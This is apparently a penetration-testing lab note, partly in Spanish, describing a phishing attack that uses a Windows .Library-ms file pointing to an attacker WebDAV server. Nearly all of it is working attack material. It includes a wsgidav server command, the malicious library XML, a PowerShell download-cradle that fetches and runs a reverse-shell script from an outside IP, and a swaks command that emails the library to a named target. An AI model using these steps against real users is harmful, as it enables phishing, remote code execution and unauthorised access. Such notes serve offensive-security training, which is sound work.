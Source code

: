 
## DESCRIPTION

Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a **.Library-ms** file extension and can be executed by double-clicking them in Windows Explorer.

Entonces si podemos enviarlo a un usuario y este hace click, entonces se conectarán a nuestro servidor y descargara y ejecutará lo que allí haya. IMPORTANTE: necesitamos *WebDAV*.

#### Mas información
* https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/the-content-library


## EXPLOITATION

Path attack for this example:  jim open te attach library -> the library call your webdav -> download and execute your .lnk with your payload

1.  LEVANTAR NUESTRO SERVIDOR WEBDAV: para realizar esta tarea utlizaremos la herramienta wsgidav: https://wsgidav.readthedocs.io/en/latest/

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

**!!NOTA IMPORTANTE!!** En la carpeta /web/dav/ debemos de meter nuestro payload, en este caso nuesto .lnk

![[Pasted image 20230427134358.png]]

2.  CREAMOS LIBRERÍA DE WINDOWS: Tenemos que crear nuestra librería de Windows, se puede usar Visual Studio. Pero en nuestro caso hemos usado esta plantilla:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.166</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

![[Pasted image 20230427134554.png]]

Esta librería descarga lo que hay en esa IP (Servidor WebDAV), no funciona un servidor Web normal. (nombre config.Library-ms )

3. PAYLOAD: Creamos nuestro payload como acceso directo .lnk.

El payload de ejemplo que se va a inyectar es:

```
#Por ejemplo
cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.10:8080/Invoke-PowerShellTcp.ps1')"
```

Accedemos a la máquina Windows, click derecho y nuevo acceso directo:

![[Pasted image 20230427181325.png]]


![[Pasted image 20230427135217.png]]

3. Movemos nuestro payload .lnk a la ruta de WebDav, en este caso a `/home/kali/webdav/`

4. Preparamos nuestro Invoke-PowerShellTcp.ps1 [[POWERSHELL REVERSESHELL]]

5. Nos ponemos a la escucha

6. Enviamos nuestro PHISHING por SMS: utilizamos la herramienta swaks, y adjuntamos nuestra librería.

```
# Ejemplo
swaks --to jim@relia.com --from maildmz@relia.com --header "Subject: file you asked for? http://192.168.119.166:4455" --body "Here you go" --server 192.168.166.189 --attach @config.Library-ms --suppress-data -ap

```


## MACHINES

* Hack The Box: 



